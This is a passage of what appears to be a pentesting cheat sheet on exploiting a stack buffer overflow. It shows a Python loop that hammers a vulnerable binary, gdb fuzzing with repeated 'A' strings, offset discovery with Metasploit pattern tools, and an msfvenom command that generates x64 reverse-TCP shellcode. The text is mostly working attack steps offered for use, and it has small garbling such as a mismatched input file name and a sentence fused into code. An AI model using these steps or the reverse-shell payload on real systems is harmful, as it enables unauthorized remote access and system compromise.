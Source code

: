 print "Calling vulnerable program"

i = 0
while (i &#x3C; 256):
    print "Number of tries: %d" %i
    i += 1
    ret = call(["/usr/local/bin/overflow", buf]) # 1st arg is the binary path
    # Add more arguments inside call() if needed for the binary exploitation
    if (not ret):
        break
    else:
        print "Exploit failed"
</code></pre>
{% endtab %}

{% tab title="rip  addr" %}
```bash
# TEST IF THE PROGRAM CRASHES AND WHEN
./file $(python -c 'print "A" * 100')
./file $(python -c 'print "A" * 200')

python -c 'print "A"*1000' > fuzz.in
gdb -q bof_demo
    r < fuzz.in
    x $rbp # check rbp value
    x/100x $rsp-700 # rip = close address to the start of the buffer (414141...)Create a string of length 1000 using Metasploit:
```
{% endtab %}

{% tab title="Offset" %}
{% code overflow="wrap" %}
```bash
`locate pattern_create` -l1000 > fuzz_rbp.in
gdb bof_demo -q
    r < fuzz_rbp_in
    x $rbp # note this value

`locate pattern_offset` -q $rbp # put rbp value here
# With the command above we get the offset value. We just need to add +8 (64-bit) or +4 (32-bit)
```
{% endcode %}
{% endtab %}

{% tab title="Final payload" %}
Since, we now control the value of register **rip**, we can make it to do something meaningful, like spawning a shell.

Let’s use “msfvenom” to create a reverse tcp shellcode as shown in the figure.

{% code overflow="wrap" %}
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -b '\x00' -f python
```
{% endcode %}
